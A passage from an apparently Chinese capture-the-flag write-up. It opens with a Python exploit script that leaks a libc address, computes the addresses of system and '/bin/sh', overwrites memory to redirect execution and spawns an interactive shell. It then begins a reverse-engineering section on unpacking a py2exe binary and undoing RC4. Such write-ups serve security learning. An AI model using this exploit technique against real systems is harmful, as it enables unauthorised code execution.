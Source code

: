 ```python
write(0x51, '\x08')
write(0x52, '\x40')
write(0x53, '\x00')
write(0x54, '\x00')
write(0x55, '\x00')

p.recvuntil('hello!')
puts_addr = u64(p.recvline().ljust(8,'\x00')) - 0xa000000000000
print 'puts_addr: ' + hex(puts_addr)

binsh_addr = (0x18cd57 - 0x6f690) + puts_addr
sys_addr = (0x45390 - 0x6f690) + puts_addr

pwn_main()
p.send('\x14\x00\x00\x00')

write(0x38, '\x13')
write(0x39, '\x0b')
write(0x3a, '\x40')
write(0x3b, '\x00')
write(0x3c, '\x00')
write(0x3d, '\x00')

print 'binsh_addr: ' + hex(binsh_addr)
print 'sys_addr: ' + hex(sys_addr)

start = 0x40
for _ in range(6):
	write(start, chr(binsh_addr % 0x100))
	binsh_addr = (binsh_addr >> 8)
	start = start + 1

start = 0x48
for _ in range(8):
	write(start, chr(sys_addr % 0x100))
	sys_addr = sys_addr >> 8
	start = start + 1

p.interactive()
```

### 0x5. Reverse - flow - 200 pt
RC4 算法 + 一点简单的排列组合题。

给了一个 exe，跑不起来，提示加载 Python 的 dll 失败，猜测是什么打包器把 py 脚本打包成了 exe，上网搜了一下，大概是 py2exe，有工具可以还原成 py 源码。还原后大致如下（变量名原来是混淆过的，我改了好看一点）：

![](https://i.loli.net/2018/12/04/5c0692f92b65f.png)

主函数把 flag 经过 `CaR_chng` 函数打乱，再交给 `encode` 函数加密，由该函数第一行知加密后字符串的前 16 个字符是字符串 `1234` 的 MD5 值，是固定的，然后再把 `chng` 打乱后的字符串和密钥 MD5 一部分拼接，再传给 `docrypt` 加密，最后密钥 MD5 另一部分和加密结果拼接返回。docrypt 函数多次对 256 取模，怀疑是 RC4 算法，网上找解密脚本即可（网上又有几乎一样的脚本，改改就能用）。
